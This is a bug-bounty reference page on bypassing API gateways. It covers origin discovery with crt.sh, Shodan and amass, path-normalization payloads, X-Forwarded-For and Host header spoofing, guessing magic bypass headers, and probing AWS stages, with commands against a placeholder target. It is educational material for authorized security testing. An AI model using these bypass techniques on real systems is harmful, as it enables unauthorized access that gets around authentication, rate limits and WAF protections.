

> Source: https://bugbounty.info/Attack-Surface/API/API-Gateway-Bypass

# API Gateway Bypass

API gateways (Kong, AWS API Gateway, Apigee, nginx as a proxy, Cloudflare) sit in front of backend services and handle auth, rate limiting, WAF rules, and sometimes schema validation. The backend service often trusts requests that came through the gateway. If you can hit the backend directly, you bypass all of that.

## Why This Works

The backend service doesn't implement its own auth because "the gateway handles it." When you find the backend's IP/hostname and hit it directly, you're talking to a service that expects to only ever receive pre-authenticated, pre-validated requests.



## Finding the Backend

**DNS history and certificate transparency:**

```bash
# crt.sh for certificate history
curl "https://crt.sh/?q=%.api.target.com&output=json" | jq '.[].name_value' | sort -u
 
# Historical DNS
# SecurityTrails, Shodan, RiskIQ / Microsoft Defender EASM
shodan search 'ssl.cert.subject.cn:api.target.com' --fields ip_str,port
 
# If the app was ever served without a CDN, the origin IP may be in DNS history
```

**IP ranges from CIDR blocks:**

```bash
# Check ASN, find company-owned CIDR blocks, scan for the backend
amass intel -org "Target Company" | grep CIDR
# Then scan for the specific service fingerprint on those ranges
```

**Error message leakage:**

```bash
# Sometimes the gateway forwards an X-Forwarded-Host or the backend is in error traces
# Send malformed requests and look for internal hostnames in the response
curl -X POST https://api.target.com/endpoint \
  -H "Content-Type: application/json" \
  -d '{"a":' # malformed JSON, trigger a parse error
```

**Cloud metadata for lambda/container backends:**

- AWS API Gateway backends are Lambda functions or EC2. Lambda you can't hit directly, but EC2 backends sometimes have public IPs.
- Check `server` response header, `x-amzn-requestid`, `x-kong-*` headers for gateway fingerprinting.

## Path Normalization Differences

Gateways and backends parse paths differently. A path that the gateway routes to `/api/admin/users` might reach the backend as something the gateway's auth rules don't cover.

**Classic bypasses:**

```bash
# URL encoding
/api/v1/%61dmin/users        (a = %61)
/api/v1/admin%2fusers        (%2f = /)
 
# Path traversal normalization
/api/v1/user/../admin/users
/api/v1/./admin/./users
 
# Double slashes
/api/v1//admin/users
//api/v1/admin/users
 
# Null bytes and special chars (gateway may strip, backend may not)
/api/v1/admin%00/users
/api/v1/admin;/users         (semicolon treated as path separator in some servers)
 
# Case differences (gateway is case-sensitive, backend is not)
/API/V1/ADMIN/users
/Api/V1/Admin/Users
```

**Real example pattern (Kong + Node.js):**

```text
Kong route: /api/v1/admin  -> 403 if not admin role
/api/v1/Admin              -> Kong: no match, passes through; Node: case-insensitive match, executes admin handler
```

## Header Manipulation

**X-Forwarded-For to bypass IP-based auth:**

```bash
# Some backends trust XFF for "internal" origin detection
curl https://api.target.com/internal/metrics \
  -H "X-Forwarded-For: 127.0.0.1" \
  -H "X-Real-IP: 10.0.0.1"
```

**Host header to reach different backend routes:**

```bash
# If the gateway uses Host to route to different backends
curl https://target-backend-ip/ \
  -H "Host: internal-api.target.com"
```

**Bypassing JWT validation via header tricks:**

```bash
# Some gateways validate auth on specific Content-Types only
# Or only on specific HTTP methods
curl -X GET https://api.target.com/data  # GET might skip auth that POST has
curl -X HEAD https://api.target.com/data # HEAD requests are commonly forgotten
 
# Extra headers the gateway checks but doesn't forward
-H "X-Gateway-Auth: skip"   # fuzzing for magic bypass headers
-H "X-Internal: 1"
-H "X-API-Gateway: bypass"
```

## AWS API Gateway Specific

```bash
# API Gateway URLs have a predictable format
# https://<api-id>.execute-api.<region>.amazonaws.com/<stage>/
 
# Stage names to try beyond "prod"
/dev/     /staging/    /v1/    /v2/    /test/    /beta/    /internal/
 
# Stages often have different auth configs - dev/staging frequently less locked down
 
# WAF bypass via resource path encoding
# API Gateway decodes before routing, so double-encoding can slip past WAF rules
```

## Confirming a Bypass

When you think you've hit the backend directly, confirm it:

1. Remove auth headers entirely. You should get a 200 (or the data you want) instead of a 401/403.
2. Hit a rate-limited endpoint 100 times in 10 seconds. If you're not throttled, you're bypassed.
3. Try a payload the WAF would have blocked (SQLi string, XSS vector). If it reaches the backend and causes a different error than a WAF block, you're through.

## Public Reports

- AWS API Gateway stage misconfiguration exposes dev environment without auth - [HackerOne #1316106](https://hackerone.com/reports/1316106)
- API gateway WAF bypass via path normalisation difference on DoD target - [HackerOne #1303996](https://hackerone.com/reports/1303996)
- Direct backend access bypassing JWT validation on Kong gateway - [HackerOne Hacktivity search](https://hackerone.com/hacktivity?querystring=api+gateway+bypass)
- Rate limit bypass via X-Forwarded-For header manipulation on authenticated API - [HackerOne #429099](https://hackerone.com/reports/429099)

## See Also

- [REST](../../Attack-Surface/API/REST) - the auth bugs you find after bypassing the gateway
- [GraphQL](../../Attack-Surface/API/GraphQL) - introspection sometimes only blocked at gateway level
